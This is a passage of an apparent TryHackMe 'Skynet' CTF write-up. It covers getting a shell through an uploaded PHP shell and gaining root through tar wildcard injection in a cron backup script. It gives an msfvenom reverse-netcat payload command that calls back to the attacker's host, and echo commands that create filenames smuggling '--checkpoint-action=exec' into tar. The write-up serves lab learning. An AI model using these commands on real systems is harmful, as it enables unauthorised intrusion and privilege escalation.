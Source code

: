 This is like using `wget` for uploading your shell then navigating to were your shell is. So once you execute this and you set up your listener correctly with the port, you used in your PHP shell.

Now we have a shell:

![shell](/assets/img/thm/skynet/user.png)

User flag is in `/home/milesdyson`

---

## Gaining Root

So if you've done [CMESS](https://tryhackme.com/room/cmess) from TryHackMe, you should be familiar with this exploit. We'll be using the wild card exploit.

When we `wget` LinEnum onto the box we can see a cronjob running:

![cron](/assets/img/thm/skynet/cron.png)

the first part means that it updates every minute. So we'll refer back to [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Looking into `backup.sh`, we can see he `cd` into `/var/www/html` to do his thing. So this is what we'll have to do later for this to work.

Contents of `backup.sh`

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We just have to make our payload with `msfvenom`

`msfvenom -p cmd/unix/reverse_netcat lhost=<host IP> lport=8888 R`

Don't forget to setup your listener with your payload port

Then on target box `cd /var/www/html` and run:

```bash
echo "payload from msfvenom" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Wait a minute and we should have root:

![root](/assets/img/thm/skynet/root.png)

Root flag is in `/root`.